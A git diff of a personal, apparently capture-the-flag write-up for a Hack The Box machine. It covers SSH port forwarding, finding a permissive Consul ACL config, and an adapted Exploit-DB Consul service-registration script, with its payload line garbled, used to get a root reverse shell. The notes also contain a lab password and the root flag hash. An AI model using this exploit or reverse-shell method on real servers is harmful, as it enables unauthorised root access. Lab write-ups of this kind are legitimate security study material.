

.

diff --git a/unterpunkte/priviledge-escalation/root-esc/getting-root.md b/unterpunkte/priviledge-escalation/root-esc/getting-root.md
@@ -4,42 +4,129 @@
 ![linpeas-active-ports.png](../../../img/linpeas-active-ports.png)
 
 ### Local Port Forwarding
+Forward the internal ports on the server to my local machine to see the data in my Browser
 ```
 ssh -L 1337:127.0.0.1:8500 ron@heal.htb
 
 ssh -L <LOCAL PORT>:<REMOTE IP>:<REMOTE PORT> <USER>@<SERVER>
 ```
 ![img.png](../../../img/ssh-local-port-forwarding.png)
-
+- Try with every port
 - Only response on port 8500
+
 
 ![img.png](../../../img/consul-webapp-version.png)
 ---
 
 ### Enumerate Consul
 
-1. Check for exploits on exploit db Version ```v1.19.2```
+#### 1. Check for exploits on exploit db for ```consul```
 - Found:
   - https://www.exploit-db.com/exploits/51117
 
-2. Try it
+#### 2. Try the script
+
+1. Listen on Port 7331
+
+![listening-port-consul.png](../../../img/listening-port-consul.png)
+
+2. Execute Script
+
+![consul-script.png](../../../img/consul-script.png)
+- ACL Token missing
+
+#### 3. Try to get ACL Token
+- Search on the system where consul files are with:
+```
+find /etc /opt /usr /var -type f -iname "*consul*" 2>/dev/null
+
+    -type f:        search for files
+    -iname:         filename includes (case insensitive)
+    -2>/dev/null:   suppresses errors by redirecting stderr to /dev/null
+```
+![find-consul.png](../../../img/find-consul.png)
+
+- Found config dir for consul
+
+![consul-directories.png](../../../img/consul-directories.png)
+
+```
+{
+  "bootstrap":true,
+  "server": true,
+  "log_level": "DEBUG",
+  "enable_syslog": true,
+  "enable_script_checks": true,
+  "datacenter":"server1",
+  "addresses": {
+        "http":"127.0.0.1"
+  },
+  "bind_addr": "127.0.0.1",
+  "node_name":"heal-internal",
+  "data_dir":"/var/lib/consul",
+  "acl_datacenter":"heal-server",
+  "acl_default_policy":"allow",
+  "encrypt":"l5/ztsxHF+OWZmTkjlLo92IrBBCRTTNDpdUpg2mJnmQ="
+}
+```
+
+Default acl policy is allow 
+
+=> Even though the token doesn't have any access rights because of this the access is still allowed  
+
+Problem:
+  - When ```acl_default_policy": "allow"``` is set, any token without explicit permissions will still be granted access by default
+
+![consul-acl-token-allow-policy.png](../../../img/consul-acl-token-allow-policy.png)
+
+<strong>=> I don't need an ACL Token</strong>
+
+Quellen:
+- https://developer.hashicorp.com/consul/docs/secure/acl/policy
+- https://developer.hashicorp.com/consul/api-docs/api-structure#authentication
+- https://developer.hashicorp.com/consul/commands/acl/token
+
+#### 4. Customise script without the acl token
+- Remove acl token argument & adjusted necessary arguments to 5 in first if statement
+- changed name & id to "Hacked"
+- removed header from request.put()
+```
+import requests, sys
+
+if len(sys.argv) < 5:
+    print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport>\n")
+    exit(1)
+
+target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
+<imeout": "864000s"}, "ID": "Hacked", "Name": "Hacked", "Port": 80}
+
+try:
+    requests.put(target, json=json)
+    print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
+except:
+    print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
+```
+
+1. Listen to port 7331 again
+
+![listening-port-consul.png](../../../img/listening-port-consul.png)
+
+2. Execute the adjusted script
+
+![img.png](../../../img/working-consul-exploit-script.png)
+
+3. Agent registered new service
+![img.png](../../../img/new-service-created.png)
+
+4. Root reverse shell connection
+![img.png](../../../img/root-rev-shell.png)
+
+5. Take root flag
+![img.png](../../../img/root-flag.png)
 
 
 ---
 
-Keine Ahnung wie ich das hinbekommen habe
-![Screenshot 2025-05-09 211701.png](Screenshot%202025-05-09%20211701.png)
+![img.png](../../../img/heal-pwned.png)
 
-
-```
-http://127.0.0.1:1337/ui/server1/services/Ruby%20API%20service/intentions/create
-```
-
-
-
-
-
-
-
-
-
+---

diff --git a/user-information.md b/user-information.md
@@ -17,8 +17,9 @@ ssh ron@heal.htb
 AdmiDi0_pA$$w0rd
 ```
 ```
-127.0.0.1:1337
+python3 -c 'import pty; pty.spawn("/bin/bash")'
 ```
+
 
 # Flags:
 ### User
@@ -28,4 +29,5 @@ AdmiDi0_pA$$w0rd
 
 ### Root:
 ```
+b8f472af33e452a2014e0f24d02b47cd
 ```
